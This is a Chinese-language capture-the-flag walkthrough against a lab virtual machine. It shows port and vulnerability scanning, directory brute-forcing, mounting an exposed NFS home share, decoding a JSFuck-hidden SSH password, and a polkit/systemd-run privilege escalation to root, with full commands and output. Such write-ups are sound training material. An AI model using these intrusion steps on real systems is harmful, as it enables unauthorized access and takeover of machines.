



## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --min-rate 9999 -p- 10.10.10.6
[sudo] kali 的密码：
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 15:07 CST
Nmap scan report for 10.10.10.6
Host is up (0.0018s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
7822/tcp  open  unknown
36999/tcp open  unknown
37497/tcp open  unknown
46985/tcp open  unknown
57571/tcp open  unknown
MAC Address: 00:0C:29:7B:4A:35 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 13.01 seconds

┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -A -p21,80,111,2049,7822,36999,37497,46985,57571 10.10.10.6
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 17:06 CST
Nmap scan report for 10.10.10.6
Host is up (0.00056s latency).

PORT      STATE  SERVICE VERSION
21/tcp    open   ftp     vsftpd 2.0.8 or later
80/tcp    open   http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Landing Page
111/tcp   open   rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      37585/udp   mountd
|   100005  1,2,3      53823/udp6  mountd
|   100005  1,2,3      56481/tcp   mountd
|   100005  1,2,3      60249/tcp6  mountd
|   100021  1,3,4      33365/tcp   nlockmgr
|   100021  1,3,4      39229/udp6  nlockmgr
|   100021  1,3,4      43179/tcp6  nlockmgr
|   100021  1,3,4      57482/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open   nfs     3-4 (RPC #100003)
7822/tcp  open   ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 38:4f:e8:76:b4:b7:04:65:09:76:dd:23:4e:b5:69:ed (RSA)
|   256 ac:d2:a6:0f:4b:41:77:df:06:f0:11:d5:92:39:9f:eb (ECDSA)
|_  256 93:f7:78:6f:cc:e8:d4:8d:75:4b:c2:bc:13:4b:f0:dd (ED25519)
36999/tcp closed unknown
37497/tcp closed unknown
46985/tcp closed unknown
57571/tcp closed unknown
MAC Address: 00:0C:29:7B:4A:35 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.56 ms 10.10.10.6

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.41 seconds   

┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sU --top-ports 100 10.10.10.6
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 15:10 CST
Nmap scan report for 10.10.10.6
Host is up (0.00072s latency).
Not shown: 95 closed udp ports (port-unreach)
PORT     STATE         SERVICE
68/udp   open|filtered dhcpc
111/udp  open          rpcbind
631/udp  open|filtered ipp
2049/udp open          nfs
5353/udp open          zeroconf
MAC Address: 00:0C:29:7B:4A:35 (VMware)

┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --script=vuln -p21,80,111,2049 10.10.10.6
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 15:13 CST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.6
Host is up (0.00098s latency).

PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-sql-injection: 
|   Possible sqli for queries:
|     http://10.10.10.6:80/mysite/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=N%3BO%3DD%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=S%3BO%3DD%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=D%3BO%3DD%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=M%3BO%3DD%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=N%3BO%3DD%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.6:80/mysite/?C=D%3BO%3DA%27%20OR%20sqlspider
|_    http://10.10.10.6:80/mysite/?C=M%3BO%3DA%27%20OR%20sqlspider
| http-fileupload-exploiter: 
|   
|     Couldn't find a file-type field.
|   
|     Couldn't find a file-type field.
|   
|_    Couldn't find a file-type field.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
|_  /manual/: Potentially interesting folder
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
111/tcp  open  rpcbind
2049/tcp open  nfs
MAC Address: 00:0C:29:7B:4A:35 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 57.28 seconds
```

## 目录爆破

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo dirb http://10.10.10.6                                                                      

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Feb 29 15:18:00 2024
URL_BASE: http://10.10.10.6/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.6/ ----
+ http://10.10.10.6/backups (CODE:200|SIZE:6301)                                                                                                                                          
==> DIRECTORY: http://10.10.10.6/images/                                                                                                                                                  
+ http://10.10.10.6/index.htm (CODE:200|SIZE:2186)                                                                                                                                        
+ http://10.10.10.6/index.html (CODE:200|SIZE:1964)                                                                                                                                       
==> DIRECTORY: http://10.10.10.6/javascript/                                                                                                                                              
==> DIRECTORY: http://10.10.10.6/manual/                                                                                                                                                  
+ http://10.10.10.6/server-status (CODE:403|SIZE:298)                                                                                                                                     
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.6/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.6/javascript/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.6/manual/ ----
==> DIRECTORY: http://10.10.10.6/manual                                                         
                                                                                                                                                                                          
-----------------
END_TIME: Thu Feb 29 15:25:34 2024
DOWNLOADED: 345900 - FOUND: 77
```
扫出来很多都是manual手册目录的信息
是apache的手册
是不相干的信息
backups信息没什么作用

## nfs共享文件夹信息搜集

ftp尝试登录失败

此时去尝试nfs
Network File System（NFS）是一个允许远程计算机通过网络访问文件的协议和软件。它允许一个计算机上的用户在另一个计算机上读取、写入和执行文件，就像它们在本地磁盘上一样。这使得多个用户可以同时访问共享文件，从而更轻松地合作和共享信息。

showmount共享文件查看是否有信息泄露
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ showmount -e 10.10.10.6
Export list for 10.10.10.6:
/home/morris *
```
新建一个目录去挂载
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo mkdir mo                                                            
[sudo] kali 的密码：
对不起，请重试。
[sudo] kali 的密码：
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ sudo mount 10.10.10.6:/home/morris mo
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ ls mo
Templates
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ cd mo       
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace/mo]
└─$ ls -la
总计 56
drwxr-xr-x  8 kali kali 4096 2019年10月11日 .
drwxr-xr-x  3 root root 4096  2月29日 16:56 ..
-rw-------  1 kali kali    1 2019年10月11日 .bash_history
-rw-r--r--  1 kali kali  220 2019年10月11日 .bash_logout
-rw-r--r--  1 kali kali 3526 2019年10月11日 .bashrc
drwx------  9 kali kali 4096 2019年10月11日 .cache
drwx------ 10 kali kali 4096 2019年10月11日 .config
drwx------  3 kali kali 4096 2019年10月11日 .gnupg
-rw-------  1 kali kali 1884 2019年10月11日 .ICEauthority
drwx------  3 kali kali 4096 2019年10月11日 .local
-rw-r--r--  1 kali kali  807 2019年10月11日 .profile
drwx------  2 kali kali 4096 2019年10月11日 .ssh
drwxr-xr-x  2 kali kali 4096 2019年10月11日 Templates
-rw-------  1 kali kali   52 2019年10月11日 .Xauthority
```

这时已经拿到共享文件夹中的所有信息了

```bash
┌──(kali㉿kali)-[~/workspace/mo/.ssh]
└─$ ls -la
总计 16
drwx------ 2 kali kali 4096 2019年10月11日 .
drwxr-xr-x 8 kali kali 4096 2019年10月11日 ..
-rw------- 1 kali kali 1823 2019年10月11日 id_rsa
-rw-r--r-- 1 kali kali  395 2019年10月11日 id_rsa.pub

```
唯一可能有用的信息
得到ssh密钥后ssh去连接

```bash

┌──(kali㉿kali)-[~/workspace]
└─$ ssh -i id_rsa -p 7822 morris@10.10.10.6
The authenticity of host '[10.10.10.6]:7822 ([10.10.10.6]:7822)' can't be established.
ED25519 key fingerprint is SHA256:+AvuA4MqvVolIC0UEPM+rO3tlK393sIFUlsn+D/cHLc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.10.6]:7822' (ED25519) to the list of known hosts.
morris@10.10.10.6's password: 
```
此时没有密码，那么就只能先放弃了

## web信息搜集

进入前面vuln脚本扫描的可能sql注入目录

看到一个与众不同的文件
查看文件内容是jsfuck

文本稍微编辑后去破译

得到一个密码
You're smart enough to understand me. Here's your secret, TryToGuessThisNorris@2k19
现在再去ssh登录
之前得到的用户信息为morris，index页面提示bro的名字只有首字母的n和m差别
那么就有两个用户
都尝试登录

## ssh立足点

norris是可以登录的
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ ssh  -p 7822 norris@10.10.10.6
norris@10.10.10.6's password: 
Linux sirrom 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

###
   #     #    #     #     #####     #      ##     #####     #    #    #   ####
   #     ##   #     #       #       #     #  #      #       #    ##   #  #    #
   #     # #  #     #       #       #    #    #     #       #    # #  #  #
   #     #  # #     #       #       #    ######     #       #    #  # #  #  ###
   #     #   ##     #       #       #    #    #     #       #    #   ##  #    #
  ###    #    #     #       #       #    #    #     #       #    #    #   ####

norris@sirrom:~$ 
```

## polkit提权

```bash
norris@sirrom:~/ftp/files$ find / -type f  -perm -4000 -exec ls -l '{}' \; 2>/dev/null
-rwsr-xr-x 1 root root 18424 Sep  8  2018 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
-rwsr-sr-x 1 root root 14608 Mar  6  2019 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 18888 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root messagebus 51184 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Oct  6  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root dip 386792 Mar  9  2019 /usr/sbin/pppd
-rwsr-xr-x 1 root root 114784 Apr  6  2019 /usr/sbin/mount.nfs
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 34896 Jan  8  2019 /usr/bin/fusermount
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 55400 Mar  6  2019 /usr/bin/bwrap
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 23288 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 154352 Mar 22  2019 /usr/bin/ntfs-3g
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 157192 Jan 12  2019 /usr/bin/sudo
norris@sirrom:~/ftp/files$ system-run -t
-bash: system-run: command not found
norris@sirrom:~/ftp/files$ systemd-run -t
Command line to execute required.
norris@sirrom:~/ftp/files$ systemd-run -t /bin/bash
==== AUTHENTICATING FOR org.freedesktop.systemd1.manage-units ===
Authentication is required to manage system services or other units.
Authenticating as: norris,,, (norris)
Password: 
==== AUTHENTICATION COMPLETE ===
Running as unit: run-u51.service
Press ^] three times within 1s to disconnect TTY.
root@sirrom:/# whoami
root
root@sirrom:/# ls /root
root.txt
root@sirrom:/# cat /root/root.txt
8fc9376d961670ca10be270d52eda423
```